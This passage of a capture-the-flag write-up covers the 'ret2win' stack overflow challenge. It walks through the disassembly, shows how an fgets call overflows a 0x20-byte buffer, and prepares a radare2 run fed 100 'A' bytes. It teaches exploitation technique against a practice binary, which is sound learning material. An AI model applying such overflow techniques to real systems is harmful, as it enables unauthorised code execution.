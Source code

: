 ```asm
  4007d3:	bf f8 08 40 00       	mov    edi,0x4008f8
  4007d8:	e8 f3 fd ff ff       	call   4005d0 <puts@plt>
  4007dd:	bf 78 09 40 00       	mov    edi,0x400978
  4007e2:	e8 e9 fd ff ff       	call   4005d0 <puts@plt>
  4007e7:	bf dd 09 40 00       	mov    edi,0x4009dd
  4007ec:	b8 00 00 00 00       	mov    eax,0x0
  4007f1:	e8 fa fd ff ff       	call   4005f0 <printf@plt>
  4007f6:	48 8b 15 73 08 20 00 	mov    rdx,QWORD PTR [rip+0x200873]        # 601070 <stdin@@GLIBC_2.2.5>
  4007fd:	48 8d 45 e0          	lea    rax,[rbp-0x20]
  400801:	be 32 00 00 00       	mov    esi,0x32
  400806:	48 89 c7             	mov    rdi,rax
  400809:	e8 12 fe ff ff       	call   400620 <fgets@plt>
  40080e:	90                   	nop
  40080f:	c9                   	leave  
  400810:	c3                   	ret    

0000000000400811 <ret2win>:
  400811:	55                   	push   rbp
  400812:	48 89 e5             	mov    rbp,rsp
  400815:	bf e0 09 40 00       	mov    edi,0x4009e0
  40081a:	b8 00 00 00 00       	mov    eax,0x0
  40081f:	e8 cc fd ff ff       	call   4005f0 <printf@plt>
  400824:	bf fd 09 40 00       	mov    edi,0x4009fd
  400829:	e8 b2 fd ff ff       	call   4005e0 <system@plt>
  40082e:	90                   	nop
  40082f:	5d                   	pop    rbp
  400830:	c3                   	ret    
  400831:	66 2e 0f 1f 84 00 00 	nop    WORD PTR cs:[rax+rax*1+0x0]
  400838:	00 00 00 
  40083b:	0f 1f 44 00 00       	nop    DWORD PTR [rax+rax*1+0x0]
```

So there's a conveniently named `pwnme` function we should probably take a look at. And if we squint at line `4007fd`:
```asm
4007fd:	48 8d 45 e0          	lea    rax,[rbp-0x20]
400801:	be 32 00 00 00       	mov    esi,0x32
400806:	48 89 c7             	mov    rdi,rax
400809:	e8 12 fe ff ff       	call   400620 <fgets@plt>
```
we can see that we're calling `fgets` with `rax` as the location to write the bytes to and 0x32 as the number of bytes to write.
It's worth reading about [x86 64 and 32 bit calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions), but for our purposes, what we need to know is that in x86_64, `rdi` is used for the first argument to a function and `rsi` is used as the second.
`rax` has previously been set to `rbp-0x20` from the `lea` instruction, so we can see that the program is allowing `0x32 - 0x20` bytes to overflow past the base pointer.

To see this in action, now we can fire up `radare2` and debug the program as it's executing. What we'll want to do is create a `.rr2` script which specifies what we'd like to provide as `stdin`:
```sh
$ echo $(python -c 'print "A" * 100') > ./payload
$ echo '#!/usr/bin/rarun2' > ./ret2win.rr2
$ echo 'stdin=./payload' >> ./ret2win.rr2
```
